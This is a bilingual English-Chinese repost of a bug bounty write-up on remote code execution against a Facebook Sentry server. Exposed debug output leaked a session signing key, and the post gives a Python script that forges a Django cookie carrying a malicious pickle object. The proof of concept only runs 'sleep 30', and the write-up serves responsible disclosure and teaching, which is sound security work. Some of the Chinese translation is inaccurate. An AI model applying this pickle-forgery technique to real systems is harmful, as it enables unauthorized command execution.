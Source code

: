 ```yaml
---
title: Review_Week2 - Remote Code Execution on a Facebook server
date: 2018-08-25 00:07:10
categories: Arts
tags:
 - Arts
 - Review
 - Week2

---
```

## [Remote Code Execution on a Facebook server][1]
By Blaklis

I regularly search for vulnerabilities on big services that allow it and have a Bug Bounty program. Here is my first paper which covers a vulnerability I discovered on one of Facebook’s servers.
我经常在大型服务器中需找漏洞，并且有个bug赏金计划。这个是我的第一篇文章，其中介绍了一个我在一台Facebook的服务器上发现的漏洞。

While scanning an IP range that belongs to Facebook (199.201.65.0/24), I found a Sentry service hosted on 199.201.65.36, with the hostname sentryagreements.thefacebook.com. Sentry is a log collection web application, written in Python with the Django framework.
当我在扫描属于Facebook（199.201.65.0/24）的IP范围时，我在199.201.65.36中找到了一个岗哨服务，主机名叫sentryagreements.thefacebook.com。岗哨是一个日子收集的网络程序，基于Django framework使用python开发的。

While I was looking at the application, some stacktraces regularly popped on the page, for an unknown reason. The application seemed to be unstable regarding the user password reset feature, which occasionally crashed. Django debug mode was not turned off, which consequently prints the whole environment when a stacktrace occurs. However, Django snips critical information (passwords, secrets, key…) in those stacktraces, therefore avoiding a massive information leakage.
正当我在看这个应用的时候，不知道什么原因，一些stacktraces不时的在页面上弹出。关于用户密码重置这个特性来看，这个应用看起来很不稳定，不时的崩溃。Django debug mode并没有关闭， 结果是当stacktrace发生时，日志打印出整个环境信息。无论如何，Django抓取了一些诸如密码和秘密，还有密钥等的关键的信息

However, by looking at the stacktrace a little more closely, some env keys were interesting :
无论如何，稍微仔细看了下stacktrace，一些环境的key值非常有意思：
```
The SESSION_COOKIE_NAME is sentrysid
SESSION_COOKIE_NAME是岗哨服务
The SESSION_SERIALIZER is django.contrib.sessions.serializers.PickleSerializer
SESSION_SERIALIZER是django.contrib.sessions.serializers.PickleSerializer
The SESSION_ENGINE is django.contrib.sessions.backends.signed_cookies
SESSION_ENGINE是django.contrib.sessions.backends.signed_cookies
The SENTRY_OPTIONS key that contains some Sentry configuration in a list.
SENTRY_OPTIONS键值包含了一些岗哨的在一个列表中的配置信息。
```
Pickle is a binary protocol for (un)serializing Python object structures, such as classes and methods in them. A comprehensive article that explains what Pickle is and its security implications is available here :
https://www.balda.ch/posts/2013/Jun/23/python-web-frameworks-pickle/
Pickle是一个用于python对象数据结构序列化和反序列化的协议，比如其中的类和方法。一篇关于Pickle和它的安全实现的文章地址如下：
https://www.balda.ch/posts/2013/Jun/23/python-web-frameworks-pickle/

If we were able to forge our own session that contains arbitrary pickle content, we could execute commands on the system. However, the SECRET_KEY that is used by Django for signing session cookies is not available in the stacktrace. However, the SENTRY_OPTIONS list contains a key named system.secret-key, that is not snipped. Quoting the Sentry documentation, system.secret-key is “a secret key used for session signing. If this becomes compromised it’s important to regenerate it as otherwise its much easier to hijack user sessions.“; wow, it looks like it’s a sort of Django SECRET-KEY override!
如果我们可以在我们的session里包含一些任意的pickle的内容，我们就可以执行系统的命令。无论如何，stacktrace里的被Django用于单独签名的session cookiesSECRET_KEY是无效的的。无论如何，SENTRY_OPTIONS的键值里包含system.secret-key，这是逃不掉的。引用Sentry的文档，system.secret-key是用于session 签名的一个的密钥。如果这一问题被破坏，那么重新生成它是很重要的，否则就更容易劫持用户会话。wow, 这看起来就像 Django 的某个SECRET-KEY被覆写了。

As we have everything to forge our own cookies with arbitrary pickle content, I wrote a little script that adds a payload into my own sentrysid cookie. Here it is :
我们想把一切东西都融合到我们包含arbitrary pickle的cookies里，我写了一个小脚本用于添加负载到我的sentrysid cookie里。如下所示：
```
#!/usr/bin/python
import django.core.signing, django.contrib.sessions.serializers
from django.http import HttpResponse
import cPickle
import os

SECRET_KEY='[RETRIEVEDKEY]'
#Initial cookie I had on sentry when trying to reset a password
cookie='gAJ9cQFYCgAAAHRlc3Rjb29raWVxAlgGAAAAd29ya2VkcQNzLg:1fjsBy:FdZ8oz3sQBnx2TPyncNt0LoyiAw'
newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
class PickleRce(object):
    def __reduce__(self):
        return (os.system,("sleep 30",))
newContent['testcookie'] = PickleRce()

print django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)
```
This code is a simple proof of concept; it takes the content of an existing sentrysid cookie, and replaces its content with an arbitrary object that will run a os.system(“sleep 30”) when unserialized.
这个代码是对概念的简单的证实。它获取了现存的sentrysid的cookie的内容，然后一个任意的对象替换了其中的内容，当反序列化的时候就会执行os.system(“sleep 30”)。

When using this cookie, the page actually takes an additional 30 seconds to load, which confirms the presence of the flaw.
当使用这个cookie的时候，页面就会自然等待30秒的去加载，以上证实了缺陷的存在。

Facebook acknowledged the vulnerability, took down the system until the flaw was patched, and then notified me about the patch being in place.
Facebook知道了这个漏洞，关闭了系统直到缺陷被打上补丁。然后通知我补丁已经就位。

Here is the disclosure timeline, which also demonstrates that Facebook security staff is reactive:
下面是批露的一些时间线，更证实了Facebook安全人员是被动的。
```
30.07.2018 00:00 CEST : initial disclosure with every details.
30.07.2018 00:00 CEST : 初始化泄漏所有的细节.
30.07.2018 15:25 CEST : triaged and system takedown.
30.07.2018 15:25 CEST : 系统修复和可拆卸.
09.08.2018 18:10 CEST : patch in place.
09.08.2018 18:10 CEST : 补丁就位.
09.08.2018 20:10 CEST : a 5000$ bounty is awarded – the server was in a separate VLAN with no users’ specific data.
09.08.2018 20:10 CEST : 一个5000美元的赏金被授予——服务器位于一个单独的VLAN中，没有用户的特定数据.
```
Thanks for reading!



[1]: https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/

